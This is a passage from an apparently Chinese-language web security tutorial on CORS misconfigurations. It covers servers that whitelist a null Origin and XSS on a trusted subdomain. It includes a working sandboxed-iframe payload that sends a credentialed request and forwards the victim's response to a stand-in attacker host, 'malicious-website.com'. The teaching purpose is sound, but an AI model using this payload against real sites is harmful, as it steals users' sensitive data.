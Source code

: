 
### Origin 白名单允许 null 值

浏览器会在以下情况下发送值为 null 的 Origin 头：
- 跨站点重定向
- 来自序列化数据的请求
- 使用 `file:` 协议的请求
- 沙盒中的跨域请求

某些应用程序可能会在白名单中允许 null 以方便本地开发。例如，假设应用程序收到了以下跨域请求：
```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

服务器响应：
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

在这种情况下，攻击者可以使用各种技巧生成 Origin 为 null 的请求以通过白名单，从而获得访问权限。例如，可以使用 `iframe` 沙盒进行跨域请求：
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

### 通过 CORS 信任关系利用 XSS

`CORS` 会在两个域之间建立信任关系，即使 `CORS` 是正确的配置，但是如果某个受信任的网站存在 XSS 漏洞，那么攻击者就可以利用 XSS 漏洞注入脚本，进而从受信任的网站上获取敏感信息。

假设请求为：
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

如果服务器响应：
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```
